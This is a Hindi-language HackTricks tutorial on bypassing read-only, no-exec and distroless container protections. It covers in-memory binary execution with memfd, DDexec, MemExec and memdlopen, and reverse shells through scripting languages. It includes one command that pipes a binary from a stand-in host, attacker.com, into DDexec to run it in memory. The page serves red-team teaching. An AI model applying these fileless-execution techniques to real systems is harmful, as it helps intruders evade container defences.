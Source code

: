 # FS सुरक्षा को बायपास करें: केवल पढ़ने के लिए / कोई निष्पादन नहीं / डिस्ट्रोलैस

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमसे जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अहेक करने योग्य को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लेखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - Linux मेमोरी हेरफेर का अन्वेषण करना**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ स्टेल्थ घुसपैठ - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने के लिए / कोई निष्पादन नहीं परिदृश्य

यह अधिक से अधिक सामान्य होता जा रहा है कि लिनक्स मशीनें **केवल पढ़ने के लिए (ro) फ़ाइल प्रणाली सुरक्षा** के साथ माउंट की जाती हैं, विशेष रूप से कंटेनरों में। इसका कारण यह है कि ro फ़ाइल प्रणाली के साथ एक कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करने जितना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, भले ही फ़ाइल प्रणाली को ro के रूप में माउंट किया गया हो, **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह गलत है कि हम डिस्क में कुछ भी नहीं लिख सकते। हालाँकि, यह फ़ोल्डर **कोई निष्पादन सुरक्षा** के साथ माउंट किया जाएगा, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं, तो आप **इसे निष्पादित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम के दृष्टिकोण से, यह **बाइनरी डाउनलोड और निष्पादित करना जटिल बनाता है** जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे एन्यूमरेटर)।
{% endhint %}

## सबसे आसान बायपास: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को निष्पादित कर सकते हैं** जब तक कि इंटरप्रेटर मशीन के अंदर हो, जैसे कि **शेल स्क्रिप्ट** यदि `sh` मौजूद है या एक **पायथन** **स्क्रिप्ट** यदि `python` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए पर्याप्त नहीं है।

## मेमोरी बायपास

यदि आप एक बाइनरी को निष्पादित करना चाहते हैं लेकिन फ़ाइल प्रणाली ऐसा करने की अनुमति नहीं दे रही है, तो ऐसा करने का सबसे अच्छा तरीका है **मेमोरी से इसे निष्पादित करना**, क्योंकि **सुरक्षाएँ वहाँ लागू नहीं होती हैं**।

### FD + exec syscall बायपास

यदि आपके पास मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **Python**, **Perl**, या **Ruby**, तो आप मेमोरी से निष्पादित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर (`create_memfd` syscall) में स्टोर कर सकते हैं, जो उन सुरक्षा द्वारा संरक्षित नहीं होगा और फिर **`exec` syscall** को कॉल कर सकते हैं जो **fd को निष्पादित करने के लिए फ़ाइल के रूप में इंगित करता है**।

इसके लिए आप आसानी से प्रोजेक्ट [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह निर्दिष्ट भाषा में एक स्क्रिप्ट उत्पन्न करेगा जिसमें **बाइनरी संकुचित और b64 एन्कोडेड** होगी और इसे **डिकोड और अनकंप्रेस** करने के लिए निर्देश होंगे एक **fd** में जो `create_memfd` syscall को कॉल करके बनाया गया है और इसे चलाने के लिए **exec** syscall को कॉल किया गया है।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं जैसे PHP या Node में काम नहीं करता क्योंकि उनके पास स्क्रिप्ट से कच्चे syscalls को कॉल करने का कोई डिफ़ॉल्ट तरीका नहीं है, इसलिए `create_memfd` को कॉल करके **मेमोरी fd** बनाने की संभावना नहीं है।

इसके अलावा, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई निष्पादन सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको **अपने स्वयं के प्रोसेस की मेमोरी को संशोधित करने** की अनुमति देती है, इसके **`/proc/self/mem`** को ओवरराइट करके।

इसलिए, **प्रक्रिया द्वारा निष्पादित असेंबली कोड को नियंत्रित करते हुए**, आप एक **शेलकोड** लिख सकते हैं और प्रक्रिया को "म्यूटेट" कर सकते हैं ताकि **कोई भी मनमाना कोड निष्पादित किया जा सके**।

{% hint style="success" %}
**DDexec / EverythingExec** आपको **मेमोरी** से अपने स्वयं के **शेलकोड** या **किसी भी बाइनरी** को लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का स्वाभाविक अगला कदम है। यह एक **DDexec शेलकोड डेमोनाइज्ड** है, इसलिए जब भी आप **एक अलग बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप बस DDexec तकनीक के माध्यम से memexec शेलकोड चला सकते हैं और फिर **नए बाइनरी लोड और चलाने के लिए इस डेमोन के साथ संवाद कर सकते हैं**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) पर **memexec का उपयोग करके PHP रिवर्स शेल से बाइनरी निष्पादित करने** का एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक **बाइनरी को लोड करने का एक आसान तरीका** प्रदान करती है ताकि बाद में उन्हें निष्पादित किया जा सके। यह यहां तक कि निर्भरताओं के साथ बाइनरी लोड करने की अनुमति भी दे सकती है।

## Distroless Bypass

### What is distroless

Distroless कंटेनर केवल **विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यक न्यूनतम घटक** होते हैं, जैसे कि पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन पैकेज प्रबंधक, शेल, या सिस्टम उपयोगिताओं जैसे बड़े घटकों को बाहर करते हैं।

Distroless कंटेनरों का लक्ष्य **अनावश्यक घटकों को समाप्त करके कंटेनरों के हमले की सतह को कम करना** और उन कमजोरियों की संख्या को कम करना है जिन्हें शोषित किया जा सकता है।

### Reverse Shell

एक distroless कंटेनर में आप **शायद `sh` या `bash` भी नहीं पाएंगे** ताकि एक नियमित शेल प्राप्त किया जा सके। आप `ls`, `whoami`, `id` जैसे बाइनरी भी नहीं पाएंगे... सब कुछ जो आप आमतौर पर एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शेल** प्राप्त करने या **सिस्टम की गणना** करने में सक्षम **नहीं होंगे** जैसे आप आमतौर पर करते हैं।
{% endhint %}

हालांकि, यदि समझौता किया गया कंटेनर उदाहरण के लिए एक फ्लास्क वेब चला रहा है, तो फिर पायथन स्थापित है, और इसलिए आप एक **Python रिवर्स शेल** प्राप्त कर सकते हैं। यदि यह नोड चला रहा है, तो आप एक नोड रिव शेल प्राप्त कर सकते हैं, और अधिकांश **स्क्रिप्टिंग भाषा** के साथ भी यही है।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **सिस्टम की गणना** कर सकते हैं भाषा की क्षमताओं का उपयोग करके।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा नहीं है तो आप अपने रिवर्स शेल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी लिख सकते हैं** और **उन्हें निष्पादित** कर सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा आमतौर पर मौजूद होंगी, लेकिन आप **इनसे बचने के लिए पिछले मेमोरी निष्पादन तकनीकों का उपयोग कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) पर **कुछ RCE कमजोरियों का शोषण करने** के उदाहरण पा सकते हैं ताकि स्क्रिप्टिंग भाषाओं के **रिवर्स शेल** प्राप्त कर सकें और मेमोरी से बाइनरी निष्पादित कर सकें।

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs को [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।**

</details>
{% endhint %}

